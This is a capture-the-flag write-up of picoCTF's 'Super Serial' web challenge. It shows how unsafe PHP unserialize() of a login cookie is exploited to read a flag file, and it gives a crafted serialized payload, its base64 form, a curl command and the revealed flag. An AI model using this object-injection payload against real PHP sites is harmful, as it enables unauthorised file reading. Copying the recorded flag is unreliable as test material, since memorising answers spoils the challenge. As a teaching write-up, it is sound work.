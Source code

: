 # Super Serial
Author: dch0017

## Challenge Description
Try to recover the flag stored on this website

## Accessing Site
Getting onto the site we see a  basic login page: </br>
![website](./website.png)
</br>

## Digging Around
We look around at sources to see if anything sticks out at first and nothing comes up.

Let's try to do a login with a test username of ```admin``` and password of ```password```.

We do get an error message but all it gives us is ```Invalid Login```. But we are at ```index.php``` now. So now we know this is running PHP, let's poke around in the cookies.

## Cookies
In the Chrome dev console, we see that we have 2 cookies. A  ```auth_name``` and a ```PHPSESSID```.  The ```PHPSESSID``` is the default name set by PHP that tracks session. If we had an authenticated session we may be able to use that or the ```auth_name``` cookies, but for now we keep browsing.

## Robots
Now we're over on the ```robots.txt``` and I really should have checked here sooner (automatic web scraper coming soon). The contents are:
```
User-agent: *
Disallow: /admin.phps
```

Short but gives us a lot of information. ```PHPS``` files will give us the source code to a PHP file. So let's try to browse to ```/admin.phps```

## PHPS
</br>
![adminphps](./adminphps.png)
</br>

No luck here, but if we look back the login page was an ```index.php``` so let's try browsing to ```index.phps``` and (I removed the HTML at the bottom of the .phps file to shorten):
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

## Deeper into PHP
Quickly running through the PHP of ```index.phps```: cookies.php is imported, then a connection is made to a SQLite3 db called ```users.db```. The ```$username``` and ```$password``` inputted by us is then compared to the functions ```is_guest()``` and ```is_admin()``` in the ```cookie.php``` file. If either of those return true, our ```login``` cookie is reset (by serializing, base64 encoding, and then url encoding our username + combo) and our header will change to the output of ```authentication.php```.

## Authentication.phps
Let's try to browser over to the authentication phps file and see what we get (again HTML removed):
```php
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
A few things stick out, one we should be able to just go straight to ```authentication.php``` and see the Welcome guest page, as there is no check for guests.</br>
![guest](./guest.png)
</br>

Secondly, we can see that we have a ```read_log()``` function which is called by another ```__toString()``` function to return the output of a specified file. According to the hint from the challenge our flag is located at ```../flag```.

## Serialization
The crucial part to this challenge is found in the ```cookie.phps``` file. At the end we see this:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
If a cookie named ```login``` is passed in, it will try to unpack that cookie (by base64 decoding, then unserializing) and checking it against ```is_guest()``` and ```is_admin()```. But if it fails it will catch the error and prints the unserialized variable.</br>

A good article for serialization and what I based my next steps off can be found here on [Medium by Vickie Li](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)</br>

## Generating Serialized String
When we first browsed the ```authentication.phps``` file we saw that on a successful admin login, a new instance of the ```access_log``` class was initiated with a ```access.log``` file. The ```access_log``` class also has a ```__toString()``` method which outputs the contents of the file.

Using the article above, we create a serialized object that references an instance of ```access_log``` but has our flag file ```../flag``` as the log file it references. Following the steps we get:

```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Now to just base64 encode our string (from cyberchef) we get:
```TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9```

## CURL with Cookie
Finally let's pass our newly generated string over to ```authentication.php``` as the ```login``` cookie.:

```console
PS C:\temp\picoCTF\Web Exploitation\Super Serial> curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```
